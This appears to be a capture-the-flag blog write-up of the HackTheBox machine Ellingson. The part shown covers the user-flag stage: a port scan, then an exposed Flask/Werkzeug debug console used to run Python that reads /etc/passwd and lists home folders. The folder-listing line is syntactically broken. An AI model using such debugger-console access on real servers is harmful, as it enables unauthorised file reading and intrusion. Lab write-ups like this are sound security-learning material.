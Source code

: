 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-05-18-ellingson-hackthebox
tags:
- binary exploitation
- flask
- hackthebox
- linux
- password cracking
- werkzeug
title: Ellingson @ HackTheBox
---
```


Ellingson is fun and quick 40 points machine on hackthebox, featuring the abuse of the python/flask werkzeug debugger, cracking a password and a custom binary exploit.

## User Flag

We start by scanning the box:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:e8:f1:2a:80:62:de:7e:02:40:a1:f4:30:d2:88:a6 (RSA)
|   256 c8:02:cf:a0:f2:d8:5d:4f:7d:c7:66:0b:4d:5d:0b:df (ECDSA)
|_  256 a5:a9:95:f5:4a:f4:ae:f8:b6:37:92:b8:9a:2a:b4:66 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was http://ellingson.htb/index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 we find a website, that shows some articles related to the movie hackers. When entering an invalid article id we are given an interesting debug view:

![](htb_ellingson_web.png)

Hovering a line gives a small debug icon on the right hand side, that reveals a console allowing us to issue python commands.

![](htb_ellingson_console.png)

We are able to use the console to read files and folders:

```
# Read File
[line.rstrip('\n') for line in open('/etc/passwd')]
# List Folder
path for dir_lst in map(os.listdir, filter(os.path.isdir, ['/home/'])) for path in dir_lst]
```
